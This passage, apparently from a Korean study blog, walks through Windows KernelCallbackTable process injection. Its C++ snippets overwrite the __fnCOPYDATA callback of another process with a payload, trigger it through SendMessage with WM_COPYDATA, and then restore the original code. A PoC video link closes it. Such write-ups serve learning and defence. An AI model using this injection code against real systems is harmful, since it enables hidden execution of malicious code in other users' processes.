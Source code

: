 삽입할 PAYLOAD를 _fnCOPYDATA() 코드 영역에 삽입한다.

```c++
if (WriteProcessMemory(hProcess, *(&pKernelCallbackFuncAddr), PAYLOAD, sizeof(PAYLOAD), NULL)) {
    printf("\t\t\t[*] Modifed The KernelCallBack Function\n");
}
else throw new exception("WriteProcessMemory()");
```

이제 SendMessage()를 Trigger로서 호출하면 코드가 실행된다.

```c++
printf("\t\t\t[*] Triger!!!\n");
WCHAR trigerMsg[] = L"t0rchwo0d";
cds.dwData = 1;
cds.cbData = lstrlen(trigerMsg);
cds.lpData = trigerMsg;
SendMessage(hWindow, WM_COPYDATA, (WPARAM)hWindow, (LPARAM)& cds);
```

마지막으로 원래의 코드로 복원하고 정상 복원 여부를 확인하기 위해서 SendMessage()를 한번더 호출하여 코드가 실행되지 않는 것을 확인한다.

```c++
if (WriteProcessMemory(hProcess, *(&pKernelCallbackFuncAddr), originCode, sizeof(PAYLOAD), NULL)) {
    printf("\t\t\t[*] Restroe Origin Code\n");
}
else throw new exception("WriteProcessMemory()");
SendMessage(hWindow, WM_COPYDATA, (WPARAM)hWindow, (LPARAM)& cds);
```

최종적으로 원하는 코드를 실행할 수 있도록 되었다. 현재는 외부에 존재하는 PAYLOAD를 사용하였으나 좀 더 공부하여 스스로 작성한 PAYLOAD를 삽입한다면 활용도가 높아질 것이라 생각한다. RV, RVA 등 고려하여 PAYLOAD를 작성해야하는 것으로 알고 있으나 다른 방법도 존재할 것이다. 추가로, 윈도우 핸들을 PID로 가져오도록 하는 로직과 Architecture 별로 구분하여 동작하도록 하면 좀 더 효율적으로 사용할 수 있을 것 같다.



## 0x03_PoC
[![Windows Process Injection Technique - KernelCallbackTable](http://img.youtube.com/vi/0Tfj243q0zA/0.jpg)](https://youtu.be/0Tfj243q0zA?t=0s) 

